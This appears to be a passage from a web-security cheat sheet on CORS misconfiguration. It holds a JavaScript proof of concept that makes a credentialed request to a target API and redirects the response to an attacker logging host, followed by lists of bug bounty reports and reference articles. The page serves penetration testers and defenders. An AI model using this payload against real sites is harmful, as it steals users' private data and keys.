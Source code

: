 ```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

## Bug Bounty reports

* [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
* [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
* [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
* [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
* [[██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)

## References

* [Think Outside the Scope: Advanced CORS Exploitation Techniques - @Sandh0t - May 14 2019](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
* [Exploiting CORS misconfigurations for Bitcoins and bounties - James Kettle | 14 October 2016](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [Exploiting Misconfigured CORS (Cross Origin Resource Sharing) - Geekboy - DECEMBER 16, 2016](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
* [Advanced CORS Exploitation Techniques - Corben Leo - June 16, 2018](https://www.corben.io/advanced-cors-techniques/)
* [PortSwigger Web Security Academy: CORS](https://portswigger.net/web-security/cors)
* [CORS Misconfigurations Explained - Detectify Blog](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
